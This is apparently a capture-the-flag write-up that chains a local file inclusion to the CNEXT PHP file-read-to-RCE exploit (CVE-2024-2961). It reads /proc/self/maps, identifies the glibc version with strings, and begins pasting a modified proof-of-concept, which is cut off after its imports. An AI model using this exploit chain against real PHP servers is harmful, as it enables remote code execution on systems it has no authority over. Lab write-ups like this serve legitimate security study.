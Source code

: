 For a better explanation :

[Part 1](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1)
[Part 2](https://www.ambionics.io/blog/iconv-cve-2024-2961-p2)
[Part 3](https://www.ambionics.io/blog/iconv-cve-2024-2961-p3)

Using the LFI we can read ```/proc/self/maps``` (like the PoC said) and we can also download the libc to see the version :

```bash
strings libc.so.6| grep -I 'version'
versionsort64
gnu_get_libc_version
argp_program_version
versionsort
__nptl_version
argp_program_version_hook
RPC: Incompatible versions of RPC
RPC: Program/version mismatch
<malloc version="1">
Print program version
GNU C Library (Debian GLIBC 2.36-9+deb12u4) stable release version 2.36.
Compiled by GNU CC version 12.2.0.
(PROGRAM ERROR) No version known!?
%s: %s; low version = %lu, high version = %lu
.gnu.version
.gnu.version_d
.gnu.version_r
```
Download the correct libc and we can use [THIS](https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py) PoC, we just need to modify it :

Here the full PoC modified :

### PoC 

```python
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE (CVE-2024-2961)
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#

from __future__ import annotations

import base64
import urllib.parse
import zlib
import urllib

from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *


HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")
```